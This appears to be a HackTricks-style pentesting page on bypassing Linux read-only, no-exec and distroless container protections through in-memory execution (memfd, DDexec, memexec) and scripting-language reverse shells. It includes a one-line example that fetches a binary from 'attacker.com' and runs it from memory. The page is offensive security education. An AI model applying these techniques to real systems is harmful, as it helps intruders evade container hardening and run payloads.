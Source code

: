 # Bypass FS protections: read-only / no-exec / Distroless

{{#include ../../../banners/hacktricks-training.md}}


## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

- [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## read-only / no-exec scenario

It's more and more common to find linux machines mounted with **read-only (ro) file system protection**, specially in containers. This is because to run a container with ro file system is as easy as setting **`readOnlyRootFilesystem: true`** in the `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
  name: alpine-pod
spec:
  containers:
  - name: alpine
    image: alpine
    securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

However, even if the file system is mounted as ro, **`/dev/shm`** will still be writable, so it's fake we cannot write anything in the disk. However, this folder will be **mounted with no-exec protection**, so if you download a binary here you **won't be able to execute it**.

> [!WARNING]
> From a red team perspective, this makes **complicated to download and execute** binaries that aren't in the system already (like backdoors o enumerators like `kubectl`).

## Easiest bypass: Scripts

Note that I mentioned binaries, you can **execute any script** as long as the interpreter is inside the machine, like a **shell script** if `sh` is present or a **python** **script** if `python` is installed.

However, this isn't just enough to execute your binary backdoor or other binary tools you might need to run.

## Memory Bypasses

If you want to execute a binary but the file system isn't allowing that, the best way to do so is by **executing it from memory**, as the **protections doesn't apply in there**.

### FD + exec syscall bypass

If you have some powerful script engines inside the machine, such as **Python**, **Perl**, or **Ruby** you could download the binary to execute from memory, store it in a memory file descriptor (`create_memfd` syscall), which isn't going to be protected by those protections and then call a **`exec` syscall** indicating the **fd as the file to execute**.

For this you can easily use the project [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). You can pass it a binary and it will generate a script in the indicated language with the **binary compressed and b64 encoded** with the instructions to **decode and decompress it** in a **fd** created calling `create_memfd` syscall and a call to the **exec** syscall to run it.

> [!WARNING]
> This doesn't work in other scripting languages like PHP or Node because they don't have any d**efault way to call raw syscalls** from a script, so it's not possible to call `create_memfd` to create the **memory fd** to store the binary.
>
> Moreover, creating a **regular fd** with a file in `/dev/shm` won't work, as you won't be allowed to run it because the **no-exec protection** will apply.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is a technique that allows you to **modify the memory your own process** by overwriting its **`/proc/self/mem`**.

Therefore, **controlling the assembly code** that is being executed by the process, you can write a **shellcode** and "mutate" the process to **execute any arbitrary code**.

> [!TIP]
> **DDexec / EverythingExec** will allow you to load and **execute** your own **shellcode** or **any binary** from **memory**.

```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

For more information about this technique check the Github or:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is the natural next step of DDexec. It's a **DDexec shellcode demonised**, so every time that you want to **run a different binary** you don't need to relaunch DDexec, you can just run memexec shellcode via the DDexec technique and then **communicate with this deamon to pass new binaries to load and run**.

You can find an example on how to use **memexec to execute binaries from a PHP reverse shell** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

With a similar purpose to DDexec, [**memdlopen**](https://github.com/arget13/memdlopen) technique allows an **easier way to load binaries** in memory to later execute them. It could allow even to load binaries with dependencies.

## Distroless Bypass

### What is distroless

Distroless containers contain only the **bare minimum components necessary to run a specific application or service**, such as libraries and runtime dependencies, but exclude larger components like a package manager, shell, or system utilities.

The goal of distroless containers is to **reduce the attack surface of containers by eliminating unnecessary components** and minimising the number of vulnerabilities that can be exploited.

### Reverse Shell

In a distroless container you might **not even find `sh` or `bash`** to get a regular shell. You won't also find binaries such as `ls`, `whoami`, `id`... everything that you usually run in a system.

> [!WARNING]
> Therefore, you **won't** be able to get a **reverse shell** or **enumerate** the system as you usually do.

However, if the compromised container is running for example a flask web, then python is installed, and therefore you can grab a **Python reverse shell**. If it's running node, you can grab a Node rev shell, and the same with mostly any **scripting language**.

> [!TIP]
> Using the scripting language you could **enumerate the system** using the language capabilities.

If there is **no `read-only/no-exec`** protections you could abuse your reverse shell to **write in the file system your binaries** and **execute** them.

> [!TIP]
> However, in this kind of containers these protections will usually exist, but you could use the **previous memory execution techniques to bypass them**.

You can find **examples** on how to **exploit some RCE vulnerabilities** to get scripting languages **reverse shells** and execute binaries from memory in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).


{{#include ../../../banners/hacktricks-training.md}}


